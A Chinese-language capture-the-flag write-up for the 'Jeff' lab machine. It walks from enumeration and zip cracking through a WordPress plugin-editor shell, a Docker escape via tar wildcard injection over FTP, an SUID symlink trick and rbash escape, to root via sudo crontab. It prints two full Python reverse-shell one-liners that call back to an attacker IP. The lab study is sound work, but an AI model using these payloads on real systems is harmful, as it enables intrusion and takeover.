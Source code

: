 # Jeff

你能破解杰夫的网络服务器吗？

如果你发现自己在暴力破解SSH，你就做错了。

---

## 端口扫描

循例nmap

![在这里插入图片描述](https://img-blog.csdnimg.cn/533ba8be462d4090b070b187829c75e0.png)

进80，是一个空页面，查看源代码

![在这里插入图片描述](https://img-blog.csdnimg.cn/0ea3a5ea90d94e2ca0158da512a75476.png)

将jeff.thm加入hosts

![在这里插入图片描述](https://img-blog.csdnimg.cn/0caae1073fe04c84a23916d55ea32b56.png)

上gobuster

![在这里插入图片描述](https://img-blog.csdnimg.cn/4c2073c508f1484b9ee04998339b3bbf.png)

/admin是空页面，/backups也没东西，/uploads是文件上传点

然而连upload也是假的

![在这里插入图片描述](https://img-blog.csdnimg.cn/52333326390741b5a6e83cf6c38661dd.png)

扫admin/，login.php还是空的

![在这里插入图片描述](https://img-blog.csdnimg.cn/a5a23b4b07ca42f8ad638de65e7f2866.png)

扫/backups/

![在这里插入图片描述](https://img-blog.csdnimg.cn/6d66dfdc7b084e7294093cf2d92483e9.png)

把backup.zip下下来，需要密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/6d32a24a5baf49c1ac03a037d5fe56af.png)

zip2john后直接爆

![在这里插入图片描述](https://img-blog.csdnimg.cn/68ec2958495948b1aa99aea7b63e5b59.png)

查看bak得到wp密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/3e916a7367ae4b5eb91c3b47cf7c3dfe.png)

现在就差wp站点没找到，不出意外应该是vhost，直接上ffuf

![在这里插入图片描述](https://img-blog.csdnimg.cn/a28fb1b57f09435c8a707065afea2211.png)

把wordpress子域加进hosts

![在这里插入图片描述](https://img-blog.csdnimg.cn/9844b2e47f2f4d05a3a7f17f9389c545.png)

进到wp并且利用刚刚的凭据登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/09114826034242f2bcbc6def4e76ed68.png)

无法通过改页面getshell

![在这里插入图片描述](https://img-blog.csdnimg.cn/994bda69e3c4446295ecdcbe4ff89f90.png)

这里利用插件编辑器改插件index.php

![在这里插入图片描述](https://img-blog.csdnimg.cn/5a240a2ad43f430091a2a0fc53e15b72.png)

但akismet这个目录无权访问

![在这里插入图片描述](https://img-blog.csdnimg.cn/faeb71adf7034d969f1d283f884cfb01.png)

换另一个插件，同样的方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/29ecc36c4c414980870a5d829094321f.png)

访问hello.php

![在这里插入图片描述](https://img-blog.csdnimg.cn/4f8a1c3327944187bd905732df09d89f.png)

没问题，直接reverse shell

python3.7可用

![在这里插入图片描述](https://img-blog.csdnimg.cn/57ba15e4dfee4a018037bce2a3a7171e.png)

payload:

	python3.7 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.39.48",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

![在这里插入图片描述](https://img-blog.csdnimg.cn/6062b5fdc077495c8b5dcdf8ac393e78.png)

## docker逃逸

在家目录的html下有一个root的文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/1757841566864be2b37d84c1b5302d84.png)

```php
$dbFile = 'db_backup/backup.sql';
$ftpFile = 'backup.sql';

$username = "backupmgr";
$password = "SuXXXXXXxXXXXXXXX3!";

$ftp = ftp_connect("172.20.0.1"); // todo, set up /etc/hosts for the container host

if( ! ftp_login($ftp, $username, $password) ){
    die("FTP Login failed.");
}

$msg = "Upload failed";
if (ftp_put($ftp, $remote_file, $file, FTP_ASCII)) {
    $msg = "$file was uploaded.\n";
}
```

很明显，172.20.0.1应该就是宿主机，而该php文件将连接到宿主机的ftp并上传一些文件去备份

这里没有ftp，我们可以用curl

![在这里插入图片描述](https://img-blog.csdnimg.cn/824b045b507248d9868a5762b60674d9.png)

这里上传文件后，如何进行备份是一个更值得关注的地方

在以往，我们通过所谓备份来提权的应该就是tar的通配符注入了

如果这里也是tar把ftp上传的文件进行备份，那么我们将直接逃逸到宿主机，获得宿主机的shell

hack.sh

```bash
#!/bin/bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.39.48",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/89788aff752c40a382799f9611905f1e.png)

base64编码解码写入hack.sh

![在这里插入图片描述](https://img-blog.csdnimg.cn/164e260f1a2b4a2db507b37194bf8ff3.png)

上传ftp

![在这里插入图片描述](https://img-blog.csdnimg.cn/bf6367cdb12348f39ceaceaa0013d74f.png)

成功过来

![在这里插入图片描述](https://img-blog.csdnimg.cn/e7e458253bde499ca0f00e4b40f98924.png)

## 横向移动

看到用户名是backupmgr，一下联想到了/var/backups，在/var/backups下有个bak，但目前无权查看

![在这里插入图片描述](https://img-blog.csdnimg.cn/61a94ac183af494392148d07f39af0e6.png)

/opt

![在这里插入图片描述](https://img-blog.csdnimg.cn/c70ffffaeae940c1bdc62e97525df1b8.png)

进到systools，查看message.txt

![在这里插入图片描述](https://img-blog.csdnimg.cn/3f4dc2e626b843deac5cc19c241fe001.png)

systool是一个可执行文件并且带jeff的suid，可以查看进程和“重置jeff的密码”

![在这里插入图片描述](https://img-blog.csdnimg.cn/aa6ca0b27d4843d6ad01fae05ace1e43.png)

而systool会读取message.txt，并且message.txt我们有所有权

![在这里插入图片描述](https://img-blog.csdnimg.cn/8a7475739e8c4e47b3cb3cb1f1a12778.png)

联合上面发现的jeff.bak，我们可以通过ln将message.txt链接到jeff.bak来读取其内容

![在这里插入图片描述](https://img-blog.csdnimg.cn/e16ea49c815c4592b48d696cd309aa2c.png)

再次执行systool，获得jeff的密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/9231ccc3ec144f61afdd5fca171f7ce1.png)

ssh登过去，发现ssh的shell受限, 是rbash，什么都干不了

![在这里插入图片描述](https://img-blog.csdnimg.cn/7a2e741093fe44c0bc3f648cbcc67749.png)

通过刚刚的shell直接su过去，发现至少还能执行一些命令

发现只禁止了/，环境变量并没有被破坏，直接bash获得bash

![在这里插入图片描述](https://img-blog.csdnimg.cn/fb5ef1662b2e4955ab436e923e364df3.png)

拿到user flag，但是这个flag是错误的，看到flag里面有个Hash Me两个字眼果断将其MD5

![在这里插入图片描述](https://img-blog.csdnimg.cn/b098771a890342fba63e99ff17116375.png)

再次提交，成功

## 权限提升

查看sudo -l

![在这里插入图片描述](https://img-blog.csdnimg.cn/3f229584ca26487299a310bec22d00e2.png)

久违的crontab -e提权

进到vim之后直接:!/bin/bash

![在这里插入图片描述](https://img-blog.csdnimg.cn/78ed08eddd9742608b48594e50002fef.png)

成功到root，拿到root flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/5c40edbc2bf14cdd8805f603d2f123e5.png)
